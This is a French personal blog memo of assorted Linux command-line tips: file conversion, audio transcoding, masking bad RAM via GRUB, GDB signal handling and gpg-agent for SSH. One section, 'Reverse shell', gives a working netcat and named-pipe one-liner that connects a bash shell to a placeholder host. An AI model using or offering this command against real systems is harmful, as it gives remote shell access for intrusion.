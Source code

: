 # Memo with various tips [fr]¶

## Conversion¶

>   * Pour convertir un BIN, MDF, PDI, CDI, NRG et B5I, en ISO : `iat`
>
>   * Remplacements dans tous les fichiers sources d’un répertoire :
>  
>     >     find . -name "*.py" -print | xargs sed -i
> 's/recherche/remplacement/g
>  
>
>   * Transcodage ogg vers mp3 :
>  
>     >     for i in *.ogg; do sox -S "$i" "${i%.ogg}.mp3"; done
>  
>
>   * Transcodage mp3 vers ogg :
>  
>     >     mpg123 -w - fichier.mp3 | oggenc -q0 -o fichier.ogg -
>  
>
>

## Ram défectueuse¶

Warning

D’expérience, c’est une mauvaise idée car votre RAM est en train de mourir, et
sera vite défectueuse un peu partout.

Si une zone de la ram est défectueuse avec memtest (et seulement une zone
précise !), il suffit de modifier la configuration de GRUB en ajoutant par
exemple, aux paramètres de boot passés à Linux :

    
    
    memmap=2M\$722M
    

Ici, le 2M est la taille de la zone à bannir, et 722M le début de la zone à
bannir.

Le backslash avant le dollar est nécessaire car ce dernier est un caractère
spécial pour GRUB.

## GDB¶

Empêcher GDB d’arrêter le programme si il reçoit un SIGPIPE :

    
    
    handle SIGPIPE nostop noprint pass
    

## Reverse shell¶

Pour ouvrir un reverse shell :

    
    
    mknod /tmp/bp p && nc YOURIP 8080 0</tmp/bp | /bin/bash 1>/tmp/bp
    

## Utiliser gpg-agent comme agent SSH¶

Assurez-vous que votre gpg-agent est bien configuré pour faire aussi agent
SSH, puis, rajoutez ceci dans votre `.(bash|zsh)rc` :

    
    
    export SSH_AUTH_SOCK=~/.gnupg/S.gpg-agent.ssh
    gpgconf --launch gpg-agent
    

GPG utilise tout le temps le même socket, mais il faut lancer l’agent à la
main pour qu’il puisse être utilisé par SSH.

Previous: [ Neo4j tips : starting & optimizing ](neo4j.html)   Next: [ Static
IPv6 with Online.net [fr] ](online.html)

### [palkeo](../index.html)

  * [Projects](../projets/index.html)
  * [Blog articles](index.html)
  * [Links](http://links.palkeo.com)
  * [Repository](http://repo.palkeo.com/)
  * [About](../about.html)

##  06 December 2015

  * Language: [French](language/french.html)

(C)2020, palkeo.

